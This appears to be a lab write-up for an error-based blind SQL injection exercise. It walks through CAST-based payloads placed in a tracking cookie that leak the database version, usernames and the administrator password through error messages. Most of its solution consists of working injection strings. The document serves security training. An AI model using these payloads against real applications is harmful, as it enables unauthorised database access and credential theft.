 
## Description:

this lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics and performs a SQL query containing the value of the submitted cookie, the results of the query are not returned

the database contains a table called 'users', with columns 'username' and 'password', to solve the lab leak the password of the administrator user

## Solution:

test a simple quote [ ' ] in the trackingid cookie \\\\ this will return an error which shows how the query is being made

append a generic SELECT subquery and cast the return value to a 'int' data type

	[cookie-value]' AND CAST((SELECT 1) AS int)-- \\ this will return an error saying that the argument of AND must be type boolean and not integer

turn it into a boolean argument by making a comparison such as:

	[cookie-value]' AND 1=CAST((SELECT 1) AS int)-- \\ this will not return an error

leaking some info using cast() to generate an error message

	[cookie-value]' AND 1=CAST((SELECT version() AS int)-- 

however trying to leak other info will not work, int the return error it is possible to see that the query is being truncated to a certain length

remove [cookie-value] to free some space

	' AND 1=CAST((SELECT username FROM users) AS int)-- \\ this will return an error saying that a subquery returned more than one row

limit the number of rows in the response

	' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- \\ this will return an error showing that the first username is administrator

knowing 'administrator' is the first username, then the first password will also be his

	 ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- \\ this will return an error showing the administrator password

